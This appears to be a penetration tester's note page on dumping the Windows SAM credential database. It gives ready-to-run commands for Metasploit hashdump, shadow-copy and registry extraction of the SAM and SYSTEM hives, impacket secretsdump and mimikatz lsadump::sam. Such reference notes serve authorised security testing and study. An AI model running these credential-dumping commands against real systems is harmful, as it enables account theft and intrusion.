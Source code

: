 #msf #wmi #vssadmin #reg #mimikatz #impacket
# SAM Database
- Local database of local users and their credentials. 
- Cannot be read by any user while windows is running.
- To dump credentials from the SAM database, SYSTEM is also required. [[Credentials]]
### Metasploit
- Metasploit's hashdump can be used to dump the SAM database.
- Requires administrative privileges.
```
meterpreter > hashdump
```
### Fetching SAM and SYSTEM using Volume shadow copy
- This can be used to fetch SAM and SYSTEM database by creating a shadow copy of the windows installation.
- Requires administrative privileges.
- Using WMI to call the shadow copy function
```powershell
# Create a shadow copy of the C Drive
wmic shadowcopy call create Volume='C:\'
# Verify creation
vssadmin list shadows
# "Shadow Copy Volume" property has the location of the shadow copy 
# SAM and SYSTEM can be copied from this path
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
```
### Fetching SAM and SYSTEM from Registry
- Registry can be used to fetch the SAM and SYSTEM hives.
- Requires administrative privileges.
```powershell
reg save HKLM\sam C:\Users\Administrator\sam-hive
reg save HKLM\system C:\Users\Administrator\system-hive
```
### Dumping SAM using impacket
- secretsdump.py can be used to dump the sam database
```bash
./secretsdump.py -sam sam-hive -system system-hive LOCAL
```
### Mimikatz
- Mimikatz can be used to dump SAM database directory or from the SAM and SYSTEM hives.
```powershell
# dump sam database online
privilege::debug
token::elevate
lsadump::sam
# or via saved sam and system files/registry hives
lsadump::sam /system:system.hiv /sam:sam.hiv
```
